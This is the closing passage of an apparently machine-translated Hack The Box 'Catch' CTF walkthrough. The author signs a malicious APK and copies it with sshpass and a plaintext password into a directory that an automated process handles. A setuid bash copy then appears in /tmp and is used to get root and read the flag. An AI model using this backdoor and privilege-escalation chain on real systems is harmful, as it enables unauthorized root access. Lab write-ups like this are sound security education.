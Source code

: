 回到签署我们新建的 apk:

```
┌──(root㉿kali)-[~/htb/catch]
└─# jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore catch_pencer.apk alias_name
Enter Passphrase for keystore: 
   adding: META-INF/MANIFEST.MF
   adding: META-INF/ALIAS_NA.SF
   adding: META-INF/ALIAS_NA.RSA
  signing: classes.dex
  signing: AndroidManifest.xml
  signing: resources.arsc
  signing: res/animator/mtrl_extended_fab_show_motion_spec.xml
<SNIP>
```

我们可以使用 SCPto 将文件复制到/opt/mdm/apk_bin 文件夹中:

```
┌──(root㉿kali)-[~/htb/catch]
└─# sshpass -p 's2#4Fg0_%3!' scp catch_pencer.apk will@catch.htb:/opt/mdm/apk_bin
```

切换回我们的 SSH 会话，因为用户将在机器上。等待几分钟，然后检查/tmp:

```
will@catch:~$ ll /tmp/pencer
-rwsr-sr-x 1 root root 1183448 Apr 23 14:28 /tmp/pencer*
```

# 根标志

我们的 bash 副本名为 pencer，权限已修改。现在让我们来看看根标志:

```
will@catch:~$ /tmp/pencer -p
pencer-5.0# whoami
root
pencer-5.0# cat /root/root.txt
340847d2ddd0d39864d988d72c4658ee
```

对我来说那是个相当棘手的盒子。我希望这个演练能帮助您度过难关。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 7 月 23 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-catch/)*。*

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*

  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  us
  [no]:  yes